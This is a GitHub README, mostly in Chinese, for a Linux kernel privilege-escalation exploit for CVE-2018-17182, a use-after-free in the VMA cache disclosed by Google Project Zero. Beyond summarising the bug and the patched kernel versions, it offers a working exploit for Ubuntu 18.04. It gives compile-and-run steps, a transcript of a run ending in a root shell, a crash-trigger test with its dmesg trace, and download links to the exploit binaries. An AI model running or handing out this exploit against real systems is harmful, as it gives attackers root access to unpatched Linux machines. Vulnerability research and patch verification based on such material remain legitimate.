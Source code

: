 # CVE-2018-17182
https://github.com/jas502n/CVE-2018-17182/
Linux 内核VMA-UAF 提权漏洞（CVE-2018-17182）
![](./p.jpg)
# About
Google Project Zero的网络安全研究人员发布了详细信息，并针对自内核版本3.16到4.18.8以来Linux内核中存在的高严重性漏洞的概念验证（PoC）漏洞利用。

由白帽黑客Jann Horn发现，内核漏洞（CVE-2018-17182）是Linux内存管理子系统中的缓存失效错误，导致释放后使用漏洞，

如果被利用，可能允许攻击者获得root权限目标系统上的特权.

免费使用后（UAF）漏洞是一类内存损坏错误，非特权用户可利用这些错误来破坏或更改内存中的数据，从而导致拒绝服务（系统崩溃）或升级权限以获得管理权限访问系统

Linux内核漏洞于9月18日在oss-security邮件列表中公开，并在第二天在上游支持的稳定内核版本4.18.9,4.14.71,4.9.128和4.4.157中进行了修补.

在3.16.58版本中也有一个修复程序。

Attaching an ugly exploit for Ubuntu 18.04, kernel linux-image-4.15.0-34-generic at version 4.15.0-34.37.

It takes about `(40min~1hour)` to run before popping a root shell. 

### Linux内核利用需要一个小时才能获得Root访问权限

Usage: First compile with ./compile.sh, then run ./puppeteer. 
Example run:

```
user@ubuntu-18-04-vm:~/vmacache$
user@ubuntu-18-04-vm:~/vmacache$
user@ubuntu-18-04-vm:~/vmacache$ ./puppeteer 
Do Sep 20 23:55:11 CEST 2018
puppeteer: old kmsg consumed
got map from child!
got WARNING
got RSP line: 0xffff9e0bc2263c60
got RAX line: 0xffff8c7caf1d61a0
got RDI line: 0xffff8c7c214c7380
reached WARNING part 2
got R8 line: 0xffffffffa7243680
trace consumed
offset: 0x110
fake vma pushed
suid file detected, launching rootshell...
we have root privs now...
Fr Sep 21 00:48:00 CEST 2018
root@ubuntu-18-04-vm:~/vmacache# 
root@ubuntu-18-04-vm:~/vmacache# 
root@ubuntu-18-04-vm:~/vmacache# 
root@ubuntu-18-04-vm:~/vmacache# 

start=23:55:11
stop=00:48:00  :)
```

Proof of Concept:

https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/45497.zip

### Usage: `Within around 40 minutes`
```
user@debian:~/vma_bug$ gcc -O2 -o vma_test vma_test.c -g && ./vma_test
Segmentation fault
 
 
Within around 40 minutes, I get the following warning in dmesg:
 
=============================================
[ 2376.292518] WARNING: CPU: 0 PID: 1103 at mm/vmacache.c:157 vmacache_find+0xbb/0xd0
[ 2376.296813] Modules linked in: btrfs xor zstd_compress raid6_pq
[ 2376.300095] CPU: 0 PID: 1103 Comm: vma_test Not tainted 4.19.0-rc3+ #161
[ 2376.303650] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.10.2-1 04/01/2014
[ 2376.305796] RIP: 0010:vmacache_find+0xbb/0xd0
[ 2376.306963] Code: 48 85 c0 74 11 48 39 78 40 75 1f 48 39 30 77 06 48 39 70 08 77 19 83 c2 01 83 fa 04 41 0f 44 d1 83 e9 01 75 c7 31 c0 c3 f3 c3 <0f> 0b 31 c0 c3 65 48 ff 05 98 97 9b 6a c3 90 90 90 90 90 90 90 0f
[ 2376.311881] RSP: 0000:ffffa934c1e3bec0 EFLAGS: 00010283
[ 2376.313258] RAX: ffff8ac7eaf997d0 RBX: 0000133700204000 RCX: 0000000000000004
[ 2376.315165] RDX: 0000000000000001 RSI: 0000133700204000 RDI: ffff8ac7f3820dc0
[ 2376.316998] RBP: ffff8ac7f3820dc0 R08: 0000000000000001 R09: 0000000000000000
[ 2376.318789] R10: 0000000000000000 R11: 0000000000000000 R12: ffffa934c1e3bf58
[ 2376.320590] R13: ffff8ac7f3820dc0 R14: 0000000000000055 R15: ffff8ac7e9355140
[ 2376.322481] FS:  00007f96165ca700(0000) GS:ffff8ac7f3c00000(0000) knlGS:0000000000000000
[ 2376.324620] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[ 2376.326101] CR2: 0000133700204000 CR3: 0000000229d28001 CR4: 00000000003606f0
[ 2376.327906] DR0: 0000000000000000 DR1: 0000000000000000 DR2: 0000000000000000
[ 2376.329819] DR3: 0000000000000000 DR6: 00000000fffe0ff0 DR7: 0000000000000400
[ 2376.331571] Call Trace:
[ 2376.332208]  find_vma+0x16/0x70
[ 2376.332991]  ? vfs_read+0x10f/0x130
[ 2376.333852]  __do_page_fault+0x191/0x470
[ 2376.334816]  ? async_page_fault+0x8/0x30
[ 2376.335776]  async_page_fault+0x1e/0x30
[ 2376.336746] RIP: 0033:0x555e2a2b4c37
[ 2376.337600] Code: 05 80 e8 9c fc ff ff 83 f8 ff 0f 84 ad 00 00 00 8b 3d 81 14 20 00 e8 48 02 00 00 48 b8 00 40 20 00 37 13 00 00 bf 37 13 37 13 <c6> 00 01 31 c0 e8 cf fc ff ff 48 83 ec 80 31 c0 5b 5d 41 5c c3 48
[ 2376.342085] RSP: 002b:00007ffd505e8d30 EFLAGS: 00010206
[ 2376.343334] RAX: 0000133700204000 RBX: 0000000100000000 RCX: 00007f9616102700
[ 2376.345133] RDX: 0000000000000008 RSI: 00007ffd505e8d18 RDI: 0000000013371337
[ 2376.346834] RBP: 00007f96165e4000 R08: 0000000000000000 R09: 0000000000000000
[ 2376.348889] R10: 0000000000000001 R11: 0000000000000246 R12: 0000000100000000
[ 2376.350570] R13: 00007ffd505e8ea0 R14: 0000000000000000 R15: 0000000000000000
[ 2376.352246] ---[ end trace 995fa641c5115cfb ]---
[ 2376.353406] vma_test[1103]: segfault at 133700204000 ip 0000555e2a2b4c37 sp 00007ffd505e8d30 error 6 in vma_test[555e2a2b4000+2000]
=============================================
 
The source code corresponding to the warning, which is triggered because
the VMA cache references a VMA struct that has been reallocated to
another process in the meantime:
 
#ifdef CONFIG_DEBUG_VM_VMACACHE
            if (WARN_ON_ONCE(vma->vm_mm != mm))
                break;
#endif
 
 
################################################################################
```

### 参考链接：

```
https://googleprojectzero.blogspot.com/2018/09/a-cache-invalidation-bug-in-linux.html

https://www.exploit-db.com/exploits/45497/

https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/45497.zip

```

